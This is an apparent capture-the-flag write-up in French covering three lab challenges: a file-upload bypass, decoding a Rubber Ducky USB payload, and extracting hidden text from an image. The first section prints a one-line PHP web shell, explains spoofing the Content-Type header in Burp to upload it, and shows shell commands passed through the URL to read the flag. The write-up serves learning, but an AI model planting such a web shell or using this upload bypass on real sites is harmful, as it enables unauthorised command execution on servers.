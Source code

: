 # Secu
## 1 . Upload_medium

* Il faut tout d'abord créer un fichier en `.php` comme par exemple, `payload.php`.
Ce dossier devra contenir les lignes suivantes :
```
<?php
echo shell_exec($_GET['cmd']);
?>*
```
* Ensuite, nous avant de l'upload, nous utiliserons une extension de navigateur comme par exemple Foxy proxy et le logiciel Burp afin de pouvoir changer le fichier envoyé.
Grace a burp, nous devons modifier la ligne :
`Content-Type: application/octet-stream`
par :
`Content-Type: image/png`
Il faut ensuite appuyer sur forward dans Burp.
et enfin désactiver notre proxy.

On arrive sur la partie délicate, il faut ouvrir le fichier étant apparu sur la page.
Grace au php, nous avons accès au cmd depuis le lien du site, il suffit de le modifier un peu:
`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=`

donc il suffit de mettre:
`ls` qui permet de lire le dossier
`%20` qui place des espaces
`-la` qui permet de voir les fichiers cachés
`../` qui permet de revenir en arrière

dans un vrai cmd, la commande nous donnerais:
`ls -la ../../`
et parmis les fichiers, nous voyeons un dossier qui s'appelle `.flag`

ensuite, nous remplaçons `ls -la` (ls%20-la) par `cat%20` et on rajoute a la fin le nom du fichier, se qui nous ouvre le fichier avec le flag a l'intérieur

`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=cat%20../../.flag`




## 2 . The DSI's yellow usb key

Le rubber ducky hack, est donc un fichier intégré a une clef USB qui tape des commandes a notre place, ce qui permet de rapidement pirater une session laissée ouverte.

Donc une fois le fichier donné téléchargé, il faut d'abord le décomprésser (comme Winrar ou 7-zip)

et vous optenez un fichier `.dd`

Sous mac, il suffit d'entrer la commande 
`hdiutil attach -imagekey diskimage-class=CRawDiskImage dump.dd`
se qui nous donne un fichier `inject.bin`
et ensuite, nous utilisons un site afin de décoder le fichier inject.bin : 
`https://ducktoolkit.com/decoder/`

le decodage nous donne l'adresse d'un fichier exe qui est en faite un .txt contenant le flag


## 3 . I Lowe runnig

Cette fois si, c'est plutôt simple, il suffit de télécharger l'image et de l'upload sur ce site : 
`https://incoherency.co.uk/image-steganography/#unhide`
L'image contenait un texte caché étant donc le flag.